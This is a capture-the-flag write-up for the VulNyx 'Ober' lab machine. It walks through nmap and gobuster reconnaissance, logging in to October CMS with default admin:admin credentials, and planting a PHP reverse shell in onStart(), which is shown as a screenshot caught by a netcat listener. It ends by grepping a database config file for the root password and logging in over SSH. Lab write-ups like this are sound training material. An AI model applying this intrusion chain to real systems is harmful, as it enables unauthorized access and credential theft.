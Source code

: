 ```yaml
---
title: VulNyx - Ober Writeup
date: 2025-05-14 10:24:59 +0530
categories: [Vulnyx, Ober]
tags: [vulnyx]
description: Hey everyone! This write-up covers the challenge “Ober” which was released on https://vulnyx.com. The box is rated easy and is an excellent challenge for those looking to start out.
--- 
```


## Reconnaissance

```bash
labs/vulnyx/Ober 
❯ nmap -sC -sV -oA ober 192.168.25.6
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-05-04 09:11 EDT
Nmap scan report for ober.vl (192.168.25.6)
Host is up (0.000068s latency).
Not shown: 997 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 27:21:9e:b5:39:63:e9:1f:2c:b2:6b:d3:3a:5f:31:7b (RSA)
|   256 bf:90:8a:a5:d7:e5:de:89:e6:1a:36:a1:93:40:18:57 (ECDSA)
|_  256 95:1f:32:95:78:08:50:45:cd:8c:7c:71:4a:d4:6c:1c (ED25519)
80/tcp   open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Homepage &#124; My new websites
|_http-server-header: Apache/2.4.38 (Debian)
8080/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Site doesn't have a title (text/html).
MAC Address: 08:00:27:B2:AF:E6 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.69 seconds

```

### Port 80 - HTTP

```bash
80/tcp   open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Homepage &#124; My new websites
|_http-server-header: Apache/2.4.38 (Debian)
```

The main webpage did not contain anything interesting. However, performing directory enumeration using Gobuster revealed an *October CMS Administration login page*.  

## Directory Enumeration
### Gobuster

```bash
labs/vulnyx/Ober 
❯ sudo ./gobuster dir -u http://192.168.25.6 -w /usr/share/wordlists/dirb/common.txt -e -b 403,404
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.25.6
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404,403
[+] User Agent:              gobuster/3.6
[+] Expanded:                true
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
http://192.168.25.6/0                    (Status: 200) [Size: 9895]
http://192.168.25.6/backend              (Status: 302) [Size: 406] [--> http://192.168.25.6/backend/backend/auth]
http://192.168.25.6/config               (Status: 301) [Size: 313] [--> http://192.168.25.6/config/]
http://192.168.25.6/index.php            (Status: 200) [Size: 9895]
http://192.168.25.6/modules              (Status: 301) [Size: 314] [--> http://192.168.25.6/modules/]
http://192.168.25.6/plugins              (Status: 301) [Size: 314] [--> http://192.168.25.6/plugins/]
http://192.168.25.6/storage              (Status: 301) [Size: 314] [--> http://192.168.25.6/storage/]
http://192.168.25.6/themes               (Status: 301) [Size: 313] [--> http://192.168.25.6/themes/]
http://192.168.25.6/vendor               (Status: 301) [Size: 313] [--> http://192.168.25.6/vendor/]
Progress: 4614 / 4615 (99.98%)
===============================================================
Finished
===============================================================                                                                      
```
<br>
An October CMS Administration login page was discovered in `/backend/backend/auth/signin`

<center>
<figure>
<img src="/assets/img/october_cms_login.png" style="width: 500px;" alt="October CMS Administration login page">
<figcaption>Fig.1 - October CMS Administration login page</figcaption>
</figure>
</center>


After testing commonly used default credentials, I was able to successfully login to October CMS admin panel using the credentials `admin:admin`

## Reverse Shell

October CMS allows PHP execution via functions like *`onStart()`* (See [docs](https://docs.octobercms.com/2.x/cms/pages.html#page-execution-life-cycle)). This allows us to include PHP reverse shells within these functions.

<center>
<figure>
<img src="/assets/img/october_cms_php_shell.png" style="width: 1000px;" alt="PHP reverse shell included within the function onStart()">
<figcaption>Fig.2 - PHP reverse shell included within the function onStart()</figcaption>
</figure>
</center>
<br>

```bash
labs/vulnyx/Ober 
❯ nc -lnvp 1234
listening on [any] 1234 ...
connect to [192.168.25.4] from (UNKNOWN) [192.168.25.6] 56302
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## Root access

The [docs](https://docs.octobercms.com/2.x/database/basics.html#configuration) mention a database configuration file can be found in `/config/database.php` which upon inspection, led to the discovery of the root-level credentials `root:r00tP@ssW0rd`

```bash
> grep "password" database.php
            'password'   => 'root',
         // 'password'   => 'r00tP@ssW0rd',
            'password' => '',
            'password' => '',
            'password' => null,
```

## User Flag

```bash
root@ober:~# find / -name user.txt
/home/c0w/user.txt
root@ober:~# cat /home/c0w/user.txt 
7597****************************
```

## Root Flag

```bash
labs/vulnyx/Ober 
❯ ssh root@192.168.25.6
The authenticity of host '192.168.25.6 (192.168.25.6)' can't be established.
ED25519 key fingerprint is SHA256:YZj1kF9uAadJk+aLh9kjKOFN5ohREbSGoCGqU4hA1w4.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.25.6' (ED25519) to the list of known hosts.
root@192.168.25.6's password: 
root@ober:~# ls
root.txt
root@ober:~# cat root.txt 
5dfc****************************
```